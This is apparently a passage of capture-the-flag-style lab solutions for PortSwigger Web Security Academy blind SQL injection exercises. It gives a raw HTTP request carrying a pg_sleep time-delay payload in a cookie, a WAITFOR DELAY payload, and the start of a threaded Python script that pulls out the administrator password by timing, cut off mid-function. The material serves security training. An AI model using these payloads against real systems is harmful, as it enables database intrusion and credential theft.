 #### Lab: Blind SQL injection with time delays

```html
GET / HTTP/2
Host: <YOUR_LAB>.web-security-academy.net
Cookie: TrackingId=a' || pg_sleep(5)--; session=wXIvQUqVN5iv9IcN0le6LagUwbTt068n
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: SomeAgent
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://<YOUR_LAB>.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

#### Lab: Blind SQL injection with time delays and information retrieval

- Base from theory: `'; IF (1=2) WAITFOR DELAY '0:0:10'--`

```python
import requests
import string
import threading
import time
from concurrent.futures import ThreadPoolExecutor

# Target config
URL = "https://<YOUR_LAB>.web-security-academy.net/"
TRACKING_ID = "a"
SESSION_COOKIE = "kdbx9rmEI120DP4F5uYFHulms6TI6xSn"
DELAY_THRESHOLD = 8   # seconds (tweak if network is slow)
DELAY_TIME = 10
charset = string.ascii_letters + string.digits
password_length = 20
max_threads = 20

result = [""] * password_length
lock = threading.Lock()

def try_char(position, char):
    injection = (
        f"{TRACKING_ID}'%3b "
        f"SELECT CASE WHEN (username = 'administrator' AND SUBSTRING(password,{position + 1},1)='{char}') "
        f"THEN pg_sleep({DELAY_TIME}) ELSE pg_sleep(0) END FROM users --"
    )

    cookies = {
        "TrackingId": injection,
        "session": SESSION_COOKIE
    }

    start_time = time.time()
    requests.get(URL, cookies=cookies)
    elapsed = time.time() - start_time

```